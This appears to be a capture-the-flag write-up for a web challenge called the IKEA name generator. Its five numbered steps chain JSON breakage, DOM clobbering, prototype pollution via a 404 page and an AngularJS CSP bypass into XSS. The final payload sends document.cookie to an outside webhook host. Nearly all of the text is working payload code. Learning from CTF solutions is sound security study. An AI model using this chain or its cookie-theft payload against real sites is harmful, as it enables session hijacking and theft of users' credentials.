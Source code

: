What's your IKEA name? Mine is SORPOÄNGEN.

http://ikea-name-generator.chal.perfect.blue/

By: corb3nik


1.Break JSON Syntax by adding a new line (%0a) to make CONFIG undefined
`http://ikea-name-generator.chal.perfect.blue/?name=renwa%0a`

2.Using DOM Clobbering fake CONFIG 
`<form+id=CONFIG><a href=x name=url id=CONFIG>`

3.With `/404.php?msg=` to create a new JSON object 

`<form id=CONFIG><a href='http://ikea-name-generator.chal.perfect.blue/404.php?msg={"text":"renwa"}' id=CONFIG name=url></a>`

4.Prototype Pollution to add `innerHTML` to the sandbox iframe

`<form id=CONFIG><a href='http://ikea-name-generator.chal.perfect.blue/404.php?msg={"__proto__":{"innerHTML":"<h1>23</h1>"}}' id=CONFIG name=url></a>`

5.Using iframe srcdoc to include angularJS script to the iframe then using angular CSP bypass tricks to execute XSS

```
<form id=CONFIG>
<a href='http://ikea-name-generator.chal.perfect.blue/404.php?msg={"__proto__":{"innerHTML":"
<iframe srcdoc=&#x27;<script src=https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.8.2/angular.js></script>
<body ng-app ng-csp>
<input autofocus ng-focus=$event.path|orderBy:%26%23x27;[].constructor.from([23],console.log,top.location.href=%26%23x22;https://webhook.site/x?x=%26%23x22;%2bdocument.cookie)%26%23x27;>&#x27>
</iframe>"}}' id=CONFIG name=url>
</a>
</form>

```